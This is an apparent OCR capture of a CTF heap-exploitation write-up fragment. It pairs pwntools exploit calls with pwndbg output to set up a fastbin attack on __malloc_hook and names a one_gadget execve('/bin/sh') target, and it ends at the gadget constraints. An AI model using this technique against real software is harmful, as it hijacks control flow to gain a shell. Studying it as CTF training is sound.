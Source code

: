 ```
```python
delete(4)
edit(5, 0x68, flat('1' * 0x60, 0x170))
delete(6)
delete(5)
#add(0x120, flat(cyclic(n = 8, length = 0x120)))
pause()
add(0x120, flat('a' * 248, 0x71, 0xdeedbeef))
```
```gdb -q -p `pidof pwn` -ex "b *0x400AB8" -ex "c"```
```
pwndbg> ni
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x1a743b0 ◂— 0xdeedbeef
0x80: 0x0
pwndbg> magic
========== function ==========
system:0x453a0
execve:0xcc7f0
open:0xf70f0
read:0xf7310
write:0xf7370
gets:0x6ed90
setcontext+0x35:0x47b85
========== variables ==========
__malloc_hook(0x3c4b10)             : 0x0000000000000000
__free_hook(0x3c67a8)               : 0x0000000000000000
__realloc_hook(0x3c4b08)            : 0x00007fdc97442a70
stdin(-0x7fdc96dbaf50)              : 0x00007fdc977818e0
stdout(-0x7fdc96dbaf60)             : 0x00007fdc97782620
_IO_list_all(0x3c5520)              : 0x00007fdc97782540
__after_morecore_hook(0x3c67a0)     : 0x0000000000000000
pwndbg> p &__malloc_hook
$1 = (void *(**)(size_t, const void *)) 0x7fdc97781b10 <__malloc_hook>
pwndbg> x/20gx 0x7fdc97781b10-0x20
0x7fdc97781af0 <_IO_wide_data_0+304>:	0x00007fdc97780260	0x0000000000000000
0x7fdc97781b00 <__memalign_hook>:	0x00007fdc97442ea0	0x00007fdc97442a70
0x7fdc97781b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7fdc97781b20 <main_arena>:	0x0000000000000000	0x0000000000000000
0x7fdc97781b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7fdc97781b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7fdc97781b50 <main_arena+48>:	0x000000000089c3b0	0x0000000000000000
0x7fdc97781b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7fdc97781b70 <main_arena+80>:	0x0000000000000000	0x000000000089c540
0x7fdc97781b80 <main_arena+96>:	0x000000000089c3e0	0x000000000089c3e0
pwndbg> x/4gx 0x7fdc97781b10-0x23
0x7fdc97781aed <_IO_wide_data_0+301>:	0xdc97780260000000	0x000000000000007f
0x7fdc97781afd:	0xdc97442ea0000000	0xdc97442a7000007f
```
then malloc twice, we can do fastbin attack to malloc_hook-0x23, one_garget offset 0x13
```
root@vm:~/ctf/1# one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL
